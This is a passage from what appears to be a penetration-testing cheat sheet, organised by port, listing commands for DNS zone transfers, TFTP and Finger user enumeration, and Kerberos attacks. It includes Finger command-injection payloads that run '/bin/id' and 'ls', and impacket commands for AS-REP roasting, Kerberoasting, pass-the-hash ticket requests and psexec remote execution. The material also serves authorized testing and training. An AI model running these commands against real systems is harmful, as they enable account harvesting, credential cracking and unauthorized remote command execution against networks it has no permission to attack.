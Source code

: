 ## Port 53 - DNS

```bash
# Transfer zone

dig AXFR domain.com @10.10.10.10
# dig +multi AXFR @ns1.insecuredns.com insecuredns.com
dnsrecon -t axfr -d domain
fierce -dns domain.com
```

## Port 69 - UDP - TFTP

* Vulns tftp in server 1.3, 1.4, 1.9, 2.1, and a few more.
* Same checks as FTP Port 21.

```bash
nmap -p69 --script=tftp-enum.nse 10.11.1.111
```

## Port 79 - Finger

```bash
nc -vn 10.11.1.111 79
echo "root" | nc -vn 10.11.1.111 79

# User enumeration
finger @10.11.1.111       #List users
finger admin@10.11.1.111  #Get info of user
finger user@10.11.1.111   #Get info of user

finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

## Port 88 - Kerberos

Check [Kerberos dedicated](../post-exploitation/windows/ad/kerberos-attacks.md) section

```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN.LOCAL'" IP
use auxiliary/gather/kerberos_enumusers # MSF

# Check for Kerberoasting: 
GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john

# GetUserSPNs
ASREPRoast:
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# Kerberoasting: 
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file> 

# Overpass The Hash/Pass The Key (PTK):
python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
python3 getTGT.py <domain_name>/<user_name>:[password]

# Using TGT key to excute remote commands from the following impacket scripts:

python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```